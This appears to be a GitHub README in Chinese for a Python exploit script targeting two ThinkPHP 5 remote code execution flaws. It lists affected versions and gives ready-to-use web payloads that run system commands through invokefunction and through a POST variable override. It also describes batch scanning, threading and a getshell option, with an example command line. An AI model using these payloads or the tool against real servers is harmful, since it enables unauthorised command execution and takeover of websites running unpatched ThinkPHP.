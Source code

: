 # thinkphp5.0.x_RCE
thinkphp5远程代码执行两种版本的漏洞利用脚本

1.路由控制不严谨导致的RCE

影响版本：5.0.x<5.0.23  &&  5.1.x<5.1.31

payload：/index.php/?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

2.Request中的变量覆盖导致RCE


影响版本：5.0.0~5.0.23

payload：index.php?s=captcha   

（POST）：_method=__construct&filter[]=system&method=get&get[]=whoami ||  _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami


参数：

-h 帮助

-u 指定URL进行检测

-r 批量检测

-t 设置线程

--shell getshell

example:python3 tp5-rce.py -u http://tp5.com

